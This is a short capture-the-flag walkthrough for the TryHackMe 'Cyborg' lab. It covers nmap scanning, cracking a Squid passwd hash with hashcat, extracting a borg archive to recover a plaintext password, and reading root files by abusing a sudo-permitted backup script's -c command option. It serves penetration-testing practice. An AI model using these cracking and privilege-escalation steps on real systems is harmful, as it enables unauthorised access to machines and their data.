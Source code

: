 ```yaml
---
title: Walkthrough - Cyborg	
published: true
---
```


A box involving encrypted archives, source code analysis and more.

[https://tryhackme.com/room/cyborgt8](https://tryhackme.com/room/cyborgt8)

* * *

## Scan the machine, how many ports are open?

- ``sudo nmap -T4 -F 10.10.173.237``

* * *

## What service is running on port 22?

- ``sudo nmap -sV -sT -p22,80 10.10.173.237``

* * *

## What service is running on port 80?

- ``sudo nmap -sV -sT -p22,80 10.10.173.237``

* * *

## What is the user.txt flag?

In ``/etc/squid`` found a passwd file with an MD5 (APR) hash - cracked ``hashcat -m 1600 music_archive.hash /usr/share/seclists/Passwords/rockyou.txt`` - squidward

- Website is running Squid Proxy?
- Downloaded archive from ``/admin/`` and extract
- this is a borg archive hence cyborg, so can install borg and extract
- ``borg extract final_archive::music_archive`` with the pass we got 

```shell
┌──(0xskar㉿cocokali)-[~/…/dev/home/alex/Documents]
└─$ cat note.txt   
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

* * *

## What is the root.txt flag?

```shell
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

- backup.sh isnt writable. but checking out the script we can pass it commands.
- ``sudo /etc/mp3backups/backup.sh -c 'ls -las /root'`` 
- ``sudo /etc/mp3backups/backup.sh -c 'cat /root/root.txt'``

* * * 